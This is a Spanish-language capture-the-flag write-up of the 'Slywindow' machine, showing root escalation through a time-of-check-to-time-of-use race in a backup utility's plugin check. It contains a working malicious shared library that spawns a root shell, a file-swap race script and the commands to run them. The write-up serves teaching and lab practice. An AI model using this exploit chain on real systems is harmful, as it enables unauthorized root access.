Starting backup process...
Loading backup plugin...
Executing backup operation...
Starting backup process...
Source: /var/www/html
Destination: /backups
Backed up: /var/www/html/small-window.jpg
Backed up: /var/www/html/index.html
Backed up: /var/www/html/admin.php
Backup completed successfully

Backup operation completed successfully.
```

El programa realiza una copia de seguridad del directorio web público `/var/www/html` en la ruta `/backups`. Para ello, emplea un plugin de backup cuya integridad verifica mostrando el hash del plugin. Al calcular el hash MD5 de la librería `backup_plugin.so`, comprobamos que coincide exactamente con el valor mostrado por el binario.

```bash
tocu@slywindow:/opt/backup$ md5sum backup_plugin.so
8b3ce16b337842c8a12f48155ec827ec  backup_plugin.so
```

Transferimos ambos archivos a nuestra máquina atacante ejecutando el siguiente comando:

```bash
scp tocu@10.0.2.11:/opt/backup/* .
```

Analizamos las protecciones de seguridad presentes en los binarios utilizando la herramienta `checksec`.

```bash
checksec --file ./backup_utility
```

```bash
checksec --file ./backup_plugin.so
```


Ambos binarios presentan la mayoría de las protecciones de seguridad activadas, pero no han sido "stripped". Esto implica que los símbolos (nombres de funciones y variables) permanecen en el binario, lo que facilita significativamente su análisis y decompilación.

Para examinar los binarios sin instalar herramientas adicionales en local, recurrimos al servicio web https://dogbolt.org, que permite desensamblar y decompilar binarios empleando diversos decompiladores reconocidos.


A continuación se muestra la función `main` decompilada utilizando el decompilador `angr` a través de dogbolt.org, lo que facilita el análisis del flujo de ejecución del binario.

```c++
int main()
{
    struct stat v0[2];  // [bp-0xc8]
    unsigned int v2;  // eax
    unsigned int v3;  // eax

    puts("=== Advanced Backup Utility v2.1 (Secure Version) ===");
    __printf_chk(1, "Source: %s\n", "/var/www/html");
    __printf_chk(1, "Destination: %s\n", "/backups");
    putchar(10);
    puts("Initializing backup system...");
    puts("Performing security checks...");
    if ((int)verify_plugin_integrity("./backup_plugin.so"))
    {
        puts("\nPreparing backup environment...");
        v2 = stat("/var/www/html", &v0);
        if (!v2)
        {
            __printf_chk(1, "Source directory found: %s\n", "/var/www/html");
            puts("Scanning source directory contents...");
            v3 = scan_directory_safely("/var/www/html");
            if (v3 >= 0)
            {
                __printf_chk(1, "Total files to backup: %d\n", v3);
                if (v3)
                {
                    puts("\nFinalizing backup preparation...");
                    puts("Ready to start backup process...");
                    puts("\nStarting backup process...");
                    if ((int)perform_backup("./backup_plugin.so", "/var/www/html", "/backups"))
                    {
                        puts("\nBackup operation completed successfully.");
                        return v2;
                    }
                    puts("Backup operation failed.");
                }
                else
                {
                    puts("Warning: No files found in source directory.");
                    __printf_chk(1, "Add some files to %s before running the backup.\n", "/var/www/html");
                }
            }
            else
            {
                __printf_chk(1, "Error: Cannot access source directory: %s\n", "/var/www/html");
            }
        }
        else
        {
            __printf_chk(1, "Error: Source directory does not exist: %s\n", "/var/www/html");
            puts("Please create the source directory and add files to backup.");
        }
    }
    else
    {
        puts("Aborting backup due to plugin verification failure.");
    }
    return 1;
}
```

Al ejecutar el binario, observamos varios de los mensajes que imprime durante su funcionamiento. Analizando el flujo, identificamos que la función `verify_plugin_integrity` verifica el hash MD5 de la librería `./backup_plugin.so` (ubicada en el mismo directorio que el binario). Si el hash no coincide, la ejecución se detiene.

A continuación, la función `scan_directory_safely` recorre todos los archivos presentes en `/var/www/html`. Finalmente, mediante `perform_backup`, el programa carga la librería y la utiliza para realizar el backup de los archivos, lo cual puede confirmarse descompilando `backup_plugin.so`.

En el servidor, disponemos de permisos para modificar `backup_plugin.so`, pero el binario valida su hash antes de cargarla; si la alteramos antes de la comprobación, el cambio será detectado. Por tanto, es fundamental entender el flujo exacto del programa:

1. Verifica el hash de `backup_plugin.so`; si no es válido, termina la ejecución.
2. Escanea los archivos en `/var/www/html`.
3. Carga la librería `backup_plugin.so` y ejecuta el backup.

Si conseguimos modificar la librería justo después de la verificación del hash (paso 1) y antes de que sea cargada (paso 3), el binario no detectará el cambio, ya que la comprobación se realizó previamente. Este escenario es un clásico ataque TOCTOU (Time Of Check to Time Of Use): el TOC ocurre en el paso 1, el TOU en el paso 3, y el paso 2 representa nuestra ventana de oportunidad para reemplazar la librería durante la ejecución.

Para medir el tiempo disponible para realizar el reemplazo, utilizamos la herramienta `inotifywait` en el servidor. Abrimos dos terminales con el usuario `tocu`; en una de ellas ejecutamos el siguiente script:

```bash
inotifywait -m /opt/backup/backup_plugin.so | while read action; do echo "$(date '+%H:%M:%S.%3N') - $action"; done
```

En la segunda terminal lanzamos la ejecución del binario vulnerable `backup_utility`.

```bash
cd /opt/backup/ && ./backup_utility
```


Observamos que la ventana para reemplazar la librería es extremadamente reducida, de apenas 2 o 3 milisegundos. No obstante, si incrementamos la cantidad de archivos en el directorio `/var/www/html`, el escaneo se ralentiza y, en consecuencia, el intervalo disponible para ejecutar el ataque TOCTOU se amplía.

Para simular este escenario, generamos 9000 archivos en el directorio objetivo mediante el siguiente comando:

```bash
touch /var/www/html/file{0001..9000}.txt
```

y repetimos la prueba para observar el comportamiento bajo estas nuevas condiciones.


Comprobamos que la ventana de oportunidad para realizar el ataque TOCTOU se ha incrementado de forma significativa.


Se genera un archivo `backup_plugin.c` con el siguiente código, cuyo propósito es obtener una shell al ser cargado como librería compartida.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Compilamos el código fuente para obtener una librería compartida maliciosa denominada `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

A continuación, transferimos la librería maliciosa al servidor víctima. Desde la máquina atacante, ubicados en el directorio donde se compiló la librería, ejecutamos:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

De forma paralela, en el servidor, desarrollamos un script en bash que automatiza el reemplazo de la librería legítima por la versión maliciosa en el instante preciso para maximizar la probabilidad de éxito del ataque.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

Se deben abrir dos terminales como el usuario tocu en el servidor. En la primera, se otorgan permisos de ejecución al script `toctou.sh` y se procede a ejecutarlo.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```

En la segunda terminal, ejecutamos el binario `./backup_utility` desde el directorio `/opt/backup`.

Al aprovechar la condición de carrera entre la verificación (Time-Of-Check, TOC) y el uso (Time-Of-Use, TOU) del plugin, conseguimos escalar privilegios a root en el servidor mediante la sustitución de la librería legítima por nuestra versión maliciosa en el momento preciso.


Los ataques TOCTOU (Time-Of-Check to Time-Of-Use) pueden explotarse en diversos escenarios, especialmente cuando existe la posibilidad de modificar un recurso entre el momento en que se verifica su estado y el momento en que es utilizado por el sistema. En este reto, el ataque se emplea para eludir la comprobación de integridad de una librería, sustituyéndola por una versión maliciosa justo antes de que el programa la cargue.

Como resultado, logramos acceder y leer la flag de root.txt.

```bash
cat /root/root.txt
```

Este ha sido el análisis técnico de la máquina Slywindow, un reto avanzado que requiere precisión en la explotación de condiciones de carrera y un entendimiento profundo del funcionamiento interno de sistemas Linux.
